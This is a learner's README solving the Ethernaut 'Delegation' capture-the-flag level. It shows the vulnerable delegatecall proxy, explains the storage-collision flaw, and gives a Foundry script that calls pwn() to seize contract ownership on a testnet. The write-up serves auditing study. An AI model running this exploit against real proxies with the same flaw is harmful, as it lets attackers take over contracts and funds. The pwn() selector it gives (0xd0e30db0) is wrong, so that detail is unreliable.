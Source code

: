 # Ethernaut Level: Delegation - Smart Contract Auditing Journey

## Introduction
Hello! In this repository, I've solved the **Delegation** level as part of my Ethernaut challenges. I'm learning smart contract auditing by solving one level per day, and this folder (`levels/delegation/`) contains everything related to it.

**Goal:** Become the owner of the Delegation contract by exploiting the delegatecall mechanism.  
**Tools:** Foundry (for scripting and testing), Sepolia testnet.  
**Solved Date:** October 20, 2025 (Day 7).  
**Success:** Verified on the Ethernaut site!

## Contract Overview
This level features two contracts: `Delegate` (with a simple `pwn()` function to change ownership) and `Delegation` (a proxy that uses `delegatecall` in its fallback to forward calls to Delegate). The fallback enables dynamic dispatch but introduces a storage collision risk.

**Key Code Snippet (from src/Delegation.sol):**
```solidity
contract Delegate {
    address public owner;

    constructor(address _owner) {
        owner = _owner;
    }

    function pwn() public {
        owner = msg.sender;
    }
}

contract Delegation {
    address public owner;
    Delegate delegate;

    constructor(address _delegateAddress) {
        delegate = Delegate(_delegateAddress);
        owner = msg.sender;
    }

    fallback() external {
        (bool result,) = address(delegate).delegatecall(msg.data);  // Vulnerable delegatecall!
        if (result) {
            this;
        }
    }
}
```

## Vulnerability Analysis
**Main Issue: Unsafe Delegatecall (Storage Collision)**  
- The `fallback` uses `delegatecall(msg.data)`, executing Delegate's code in Delegation's context (shared storage, same msg.sender). Calling with `pwn()` calldata runs Delegate's `pwn()` but writes to Delegation's `owner` slot, changing Delegation's ownership.  
- **Security Impact:** Allows unauthorized state manipulation in proxies, potentially draining funds or altering logic. This is a classic delegatecall pitfall in upgradeable contracts.  
- **Audit Tip:** Avoid delegatecall unless storage layouts match exactly. Use `call` for isolated execution. Tools like Slither flag this with `--detect delegatecall`.

**Example:** Send `pwn()` calldata (selector: 0xd0e30db0) to Delegation—fallback delegatecalls to Delegate, setting Delegation's `owner = msg.sender`.

## Solution Steps
The attack: Use a low-level `call` with `pwn()` calldata to trigger the fallback, executing `pwn()` in Delegation's context.

1. **Setup:** Create Foundry project, set target instance address in script.
2. **Run Attack:** `forge script script/DelegatSolution.s.sol --rpc-url $SEPOLIA_RPC_URL --broadcast`.
3. **Verify:** Check `owner()` matches your address, submit on Ethernaut site.

**Key Attack Code Snippet (from script/DelegatSolution.s.sol):**
```solidity
contract DelegatSolution is Script {
    Delegation delegationInstance = Delegation(payable(<Contract_address>));

    function run() external {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        console.log("Before attack, Owner:", delegationInstance.owner());

        // pwn() calldata with low-level call
        bytes memory pwnCalldata = abi.encodeWithSignature("pwn()");
        (bool success, ) = address(delegationInstance).call(pwnCalldata);
        require(success, "Attack failed");

        console.log("After attack, Owner:", delegationInstance.owner());
        console.log("My Address:", vm.envAddress("MY_ADDRESS"));

        vm.stopBroadcast();
    }
}
```

## Test and Output
- **Local Test:** Run `anvil` and `forge test`—simulates delegatecall and ownership change.
- **Testnet Output Example:** Console log: "Before attack, Owner: 0xOriginal...", "After attack, Owner: 0xYourAddress" (matches MY_ADDRESS).

## Key Learnings
- **Auditing Skill:** Scrutinize delegatecall for storage slot overlaps—simulate with Foundry cheats.
- **EVM Concept:** Delegatecall uses caller's storage/code from callee; call uses callee's storage.
- **Prevention:** Validate calldata in fallback; use upgradeable patterns like OpenZeppelin's UUPSProxy.
- **Next Step:** Add a test to verify post-attack ownership via view call.

## Installation & Run
1. Install Foundry: `curl -L https://foundry.paradigm.xyz | bash`.
2. `cd levels/delegation`.
3. Set `.env`: `PRIVATE_KEY=your_key` and `SEPOLIA_RPC_URL=your_rpc`.
4. Run script: `forge script script/DelegatSolution.s.sol --rpc-url $SEPOLIA_RPC_URL --broadcast -vvvv`.

If you have questions, comment on the issue or mention me on X (@0xZHD_X)! Next level: Force. 🚀

---

- **License:** MIT  
- **Author:** [0xZHD] - Smart Contract Auditor Learner  
- **X:** [Zahedul I Sadik](@0xZHD_X)  
- **References:** [Ethernaut Docs](https://ethernaut.openzeppelin.com/)